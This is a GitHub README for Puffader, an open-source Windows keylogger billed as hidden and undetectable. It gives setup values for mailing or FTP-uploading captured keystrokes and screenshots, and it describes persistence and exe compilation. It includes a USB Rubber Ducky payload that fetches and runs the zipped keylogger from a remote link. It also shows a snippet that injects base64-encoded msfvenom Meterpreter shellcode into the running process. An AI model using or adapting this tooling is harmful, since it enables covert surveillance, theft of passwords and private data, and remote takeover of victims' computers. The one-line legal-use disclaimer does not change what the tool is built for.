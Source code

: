 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots and mouse window clicks.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyAutoGui](https://pypi.python.org/pypi/PyAutoGUI)

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

The program can be downloaded via github or git eg.
```git clone https://github.com/xp4xbox/Puffader```

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to send logs via ftp
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to control how you want the backspace key to be outputed as.
* Ability to stop the program via ctrl-rshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Optional persistence.
* Ability to capture window mouse clicks
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `22-45` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

blnFTP = "False"
strFtpServer = ""
intFtpPort = 21
strFtpUser = ""
strFtpPass = ""
strFtpRemotePath = "/"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnLogClick = "True"
blnBackRemove = "True"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

#### Py2Exe (recommmended)
1. Install [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/).
2. Run `python setup.py`

#### cx_Freeze
1. Install cx_Freeze via `pip install cx_freeze`.
2. Run `python cx_freeze_setup.py build`.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Using Persistence

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Persistence).

## USB Rubber Ducky Payload

1. Zip the compiled .exe's folder and upload it to any file sharing service, etc.
2. Edit [payload.ps1](https://github.com/xp4xbox/Puffader/blob/master/USB_Rubber_Ducky_Payload/payload.ps1) setting `$url` to be the direct link to the .zip. `$ZipName` to be the .zip name and `$strFileDir` to be the folder name inside the .zip file.
3. Upload your payload.ps1 as well.
4. Set `$url` in [inject.txt](https://github.com/xp4xbox/Puffader/blob/master/USB_Rubber_Ducky_Payload/inject.txt) to be the direct link for payload.ps1.
5. Encode to inject.bin using [my encoder](https://www.instructables.com/id/USB-Rubber-Ducky-Script-Encoder-VBScript/) or any other one.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances. Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe using [setup.py](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/setup.py) to compile the program to single .exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
